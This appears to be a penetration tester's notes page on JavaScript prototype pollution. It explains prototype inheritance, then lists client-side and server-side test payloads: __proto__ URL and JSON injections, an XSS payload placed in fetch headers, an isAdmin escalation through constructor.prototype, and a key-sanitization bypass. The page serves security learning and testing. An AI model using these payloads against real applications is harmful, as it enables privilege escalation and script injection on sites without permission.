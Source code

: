 # Prototype pollution

<details>

<summary>Introduction</summary>

```javascript
var my_object = {a:1, b:2}
```

Access the value of "a"

```javascript
console.log(my_object.a)     // Output: 1 
// functionally equivalent to... 
console.log(my_object["a"])  // Output: 1
```

Add a property

<pre class="language-javascript"><code class="lang-javascript"><strong>my_object["c"] = 3
</strong>// or... 
my_object.c = 3
</code></pre>

Every object has a `__proto__` (or prototype) property too which points to that object’s ‘prototype’, allowing it to inherit properties and methods.



If we try to access a property that doesn’t exist on `my_object`, JavaScript will next look to see if it is part of the next Object’s **proto** property

```javascript
empty_object = {} 
Object.prototype.x = 'test' 
console.log(empty_object.x) // test
```



```javascript
// Empty object. 
blank_object = {} 
// Object with a few properties
my_object = {a:1, b:2} 
// Define the 'z' property on the '__proto__' object of 'my_object': 
my_object["__proto__"]["z"] = "test" 

console.log(my_object.z)     // Output: test
console.log(blank_object.z)  // Output: test
console.log(Object.z)        // Output: test

// Note: here we add a 'z' property on the __proto__ object of 'my_object',
// that in this case is "Object".
```



```javascript
s = "test"
s.__proto__                         // String { .... }

// Define the 'z' property on the '__proto__' object of 's': 
s["__proto__"]["z"] = "bar"
console.log(s.z)                    // Output: bar

// Create another string ...
x = "test"
console.log(x.z)                    // Output: bar

// Create an object ...
obj = {}
console.log(obj.z)                    // Output: undefined

// Here we add a 'z' property on the __proto__ object of 's',
// that in this case is "String". So now all object all objects 
// that inherit "String" object have this property.
```







</details>

More info: [https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/](https://www.netspi.com/blog/technical-blog/web-application-pentesting/ultimate-guide-to-prototype-pollution/)

## <mark style="color:yellow;">Prototype pollution sources</mark> <a href="#prototype-pollution-sources" id="prototype-pollution-sources"></a>

The three most common JavaScript patterns that can lead to prototype pollution are merging, cloning, and value setting operations. Anytime an object is dynamically built from user input, there's a risk of prototype pollution.

<details>

<summary>Real World Example – jQuery Deparam </summary>

to do

</details>

## <mark style="color:yellow;">Client-side prototype pollution (manual)</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

### <mark style="color:yellow;">**Finding sources**</mark>  <a href="#finding-client-side-prototype-pollution-sources-manually" id="finding-client-side-prototype-pollution-sources-manually"></a>

**In the URL**

1. Using a common XSS source, such as the URL parameters or hash, set a \_\_proto\_\_ payload, like this:

```
https://example.com/?__proto__[polluted]=Polluted 
// or  
https://example.com/#__proto__[polluted]=Polluted 
// or  
https://example.com/?__proto__.polluted=Polluted 
```

2. Check `Object.prototype` in your browser console to see if the property was successfully added:

```javascript
Object.prototype.polluted // "Polluted" = successful pollution // undefined = failed attempt
```

3. Repeat with different sources

An important point is that the `[]` and `.` notations are not valid JavaScript in this context; they are defined by the developer. So the pattern you should look for in any source is ‘nesting’

Ridiculous example

```
https://example.com?firstParam=__prototype__&secondParam=polluted&thirdParam=Polluted 
https://example.com?param->__proto__->polluted=Polluted 
```

***

**In JSON**

Test any kind of JSON. E.g. a JWT could be parsed client-side for example, without any kind of validation.

```json
{ 
  "alg": "HS256", 
  "typ": "JWT", 
  "kid": "123", 
  "__proto__": { 
      "polluted": "Polluted" 
  } 
} 
```

### <mark style="color:yellow;">**Finding gadgets**</mark>

Being able to affect the global `__proto__` property is not very useful unless you can use it to affect other parts of the code.

{% hint style="success" %}
**Tip**: Third-party libraries of prototype pollution gadgets [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)
{% endhint %}

## <mark style="color:yellow;">Browser APIs</mark>

**Fetch**

```javascript
fetch('https://website.com/change-email', {
    method: 'POST',
    body: 'user=test&email=test%40test.test'
})
```

Basically, here are defined `method` and `body` properties, but there are a number of other possible properties that we've left undefined. So, if you find a source, you can pollute `Object.prototype` with your own `headers` property.

```
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

More info: [https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-fetch)

***

**Object.defineProperty()**

```javascript
Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
```

Same thing. `defineProperty` accept other "descriptor" a.g. `value`.&#x20;

```javascript
/?__proto__[value]=foo
```

[https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty](https://portswigger.net/web-security/prototype-pollution/client-side/browser-apis#prototype-pollution-via-object-defineproperty)

## <mark style="color:yellow;">Client-side prototype pollution (with DOM Invader)</mark>

**Finding sources**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution)

**Finding gadgets**

[https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets)

## <mark style="color:yellow;">Server-side prototype pollution</mark> <a href="#finding-client-side-prototype-pollution-sources-using-dom-invader" id="finding-client-side-prototype-pollution-sources-using-dom-invader"></a>

Javascript in the backend

<details>

<summary>Introduction</summary>

An easy trap for developers is overlooking that a JavaScript for...in loop iterates over all of an object's enumerable properties, including inherited ones from the prototype chain.

```javascript
// Example with "object"
const myObject = { a: 1, b: 2 };

// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject doesn't have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
```

```javascript
// Example with "array"
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
```

</details>

{% hint style="warning" %}
**Warning**: It's easy to unintentionally cause a denial-of-service (DoS), making testing in production risky. In addition, once a server-side prototype is polluted, the change persists for the entire lifetime of the Node process, with no way to reset it.
{% endhint %}

**Detection - (polluted property reflection)**

Attempt to pollute the global `Object.prototype` with an arbitrary property in a `POST` / `PUT` request

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "__proto__":{
        "foo":"bar"
    }
}
```

```http
HTTP/1.1 200 OK
...
{
    "username":"ithomas",
    "firstName":"isaiah",
    "lastName":"thomas",
    "foo":"bar"
}
```

**Detection - (without polluted property reflection \[Automatic])**

Server-Side Prototype Pollution Scanner (Burp extension)

Right click on the request -> Extensions -> Server-Side Prototype Pollution Scanner -> Server-Side Prototype Pollution

## <mark style="color:yellow;">Bypassing defenses</mark>

### <mark style="color:yellow;">Via the constructor</mark>

A common defense is to remove any properties with the key `__proto__` from user-controlled objects before merging them.

Use `myObject.constructor.prototype` that is equivalent to `myObject.__proto__`

```
vulnerable-website.com/?foo.constructor.prototype=bar
```

```json
{
   "constructor":{
      "prototype":{
         "isAdmin":"true"
      }       
   }
}
```

### <mark style="color:yellow;">Bypassing flawed key sanitization</mark>

Read the js code to understand the defenses. E.g. bypass the strips of `__proto__`

```
vulnerable-website.com/?__pro__proto__to__[foo]=bar
```

